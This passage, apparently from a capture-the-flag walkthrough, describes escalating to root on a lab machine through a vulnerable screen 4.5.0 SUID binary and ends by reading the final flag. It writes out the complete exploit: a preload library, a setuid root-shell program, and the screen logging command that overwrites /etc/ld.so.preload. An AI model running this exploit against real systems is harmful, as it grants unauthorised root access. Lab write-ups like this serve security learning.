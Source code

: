 ```bash
/bin/ping
/bin/su
/bin/ping6
/bin/screen-4.5.0/screen-4.05.0
/bin/mount
```

only *screen* has a version in a name of file and that's interesting. 
We can look at the internet and find the exploit if exists. 
The best way how to find the correct exploit and not malware :) 
is on [exploit-db](https://www.exploit-db.com) website from offensive-security.

I found one that could works. 
[exploit](https://www.exploit-db.com/exploits/41154)


```bash
$ cat << EOF > /tmp/libhax.c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
EOF

$ gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c                                                      
$ ls /tmp/                                          
$ cat << EOF > /tmp/rootshell.c                                                                               
#include <stdio.h>                                       
int main(void){                                          
    setuid(0);                                           
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);                       
}        
EOF    
                            
$ gcc -o /tmp/rootshell /tmp/rootshell.c
$ cd /etc/
$ umask 000
$ screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so"                                                
$ /bin/screen-4.5.0/screen-4.05.0 -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so"                       
$ /tmp/rootshell 
```
And now we have root priviledges, so let's take the last one flag.

```bash
# cat /root/flag4
6b873b86b1f3eb170554af54fddb8267
```

- __FLAG4: 6b873b86b1f3eb170554af54fddb8267__

I hope you enjoy the game and learn something new.
Bye;)
